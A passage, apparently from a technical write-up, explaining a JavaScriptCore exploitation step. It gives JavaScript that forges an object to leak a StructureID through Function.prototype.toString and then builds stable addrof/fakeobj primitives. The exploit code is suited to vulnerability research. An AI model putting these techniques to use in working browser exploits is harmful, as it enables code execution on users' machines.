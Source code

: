 ```javascript
hostObj = {
                                                            // hostObj.structureId
                                                            // hostObj.butterfly
    _: 1.1,                                                 // dummy
    length: (new Int64('0x4141414141414141')).asDouble(),
                                                            // -> fakeHostObj = fakeObj(addressOf(hostObj) + 0x20)
    id: (new Int64('0x0108191700000000')).asJSValue(),
    butterfly: null,
    o: {},
    executable:{
      a:1, b:2, c:3, d:4, e:5, f:6, g:7, h:8, i:9,          // Padding (offset: 0x58)
      unlinkedExecutable:{
        isBuiltinFunction: 1 << 31,
        a:0, b:0, c:0, d:0, e:0, f:0,                       // Padding (offset: 0x48)
        identifier: null
      }
    },
                                                            // -> fakeIdentifier = fakeObj(addressOf(hostObj) + 0x40)
    strlen_or_id: (new Int64('0x10')).asDouble(),           // String.size
    target: hostObj                                         // String.data_ptr
}

hostObj.executable.unlinkedExecutable.identifier = fakeIdentifier
Function.prototype.toString(fakeHostObj) // function [leaked-structure-id]() { [native code] }
```

We leak the structure id of the hostObj by making fake function object
fakeHostObj and calling Function.prototype.toString on it. The name of
function reflects the structure id value as UTF-16 string. We update the
hostObj after leaking the structure id. It is worth to noting that this
technique is from [Yong Wang's Blackhat EU 2019
talk](https://www.blackhat.com/eu-19/briefings/schedule/#thinking-outside-the-jit-compiler-understanding-and-bypassing-structureid-randomization-with-generic-and-old-school-methods-17513).

```javascript
hostObj = {
                                                            // hostObj.structureId
                                                            // hostObj.butterfly
    _: 1.1,                                                 // dummy
    length: (new Int64('0x4141414141414141')).asDouble(),
                                                            // -> fakeHostObj = fakeObj(addressOf(hostObj) + 0x20)
    id: leakStructureId.asDouble(),                         // fakeHostObj.structureId
    butterfly: fakeHostObj,                                 // fakeHostObj.butterfly
    o: {},
    ...
}
```

Now we have fakeHostObj's butterfly pointing fakeHostObj itself.  We can use
addrof/fakeobj primitive without triggering the bug again since we can access
hostObj.o as JSValue or as double using fakeHostObj[2].
